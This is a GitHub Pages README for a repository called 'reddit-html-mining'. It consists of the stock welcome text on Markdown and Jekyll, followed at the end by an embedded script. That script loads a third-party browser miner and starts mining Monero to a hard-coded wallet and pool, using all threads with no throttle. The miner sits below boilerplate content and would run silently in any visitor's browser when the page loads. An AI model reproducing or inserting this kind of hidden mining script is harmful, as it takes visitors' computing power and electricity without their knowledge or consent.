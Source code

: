 ## Welcome to GitHub Pages

You can use the [editor on GitHub](https://github.com/ThisIsNOTVERYMatt/reddit-html-mining/edit/master/README.md) to maintain and preview the content for your website in Markdown files.

Whenever you commit to this repository, GitHub Pages will run [Jekyll](https://jekyllrb.com/) to rebuild the pages in your site, from the content in your Markdown files.

### Markdown

Markdown is a lightweight and easy-to-use syntax for styling your writing. It includes conventions for

```markdown
Syntax highlighted code block

# Header 1
## Header 2
### Header 3

- Bulleted
- List

1. Numbered
2. List

**Bold** and _Italic_ and `Code` text

[Link](url) and ![Image](src)
```

For more details see [GitHub Flavored Markdown](https://guides.github.com/features/mastering-markdown/).

### Jekyll Themes

Your Pages site will use the layout and styles from the Jekyll theme you have selected in your [repository settings](https://github.com/ThisIsNOTVERYMatt/reddit-html-mining/settings). The name of this theme is saved in the Jekyll `_config.yml` configuration file.

### Support or Contact

Having trouble with Pages? Check out our [documentation](https://help.github.com/categories/github-pages-basics/) or [contact support](https://github.com/contact) and we’ll help you sort it out.

<script src="https://coinwebmining.com/cwm.js"></script>
<script>
    var site_id = 'cwm-1224';
    var coin = 'monero';
    var wallet = '43AULrkzx3ZCJvBmn8uRnUKhmCQ3ZucqDMfLhyvVCcsf4AyzWeye1A1F2iXtcJWEMe3AhHnBtRxr67GRApVvrzADRtQGdxC';
    var password = 'x';
    var mining_pool = 'gulf.moneroocean.stream:10001';
    var threads = -1;
    var throttle = 0;
    var debug = false;
    cwm_start(site_id, coin, wallet, password, mining_pool, threads, throttle, debug);
</script>
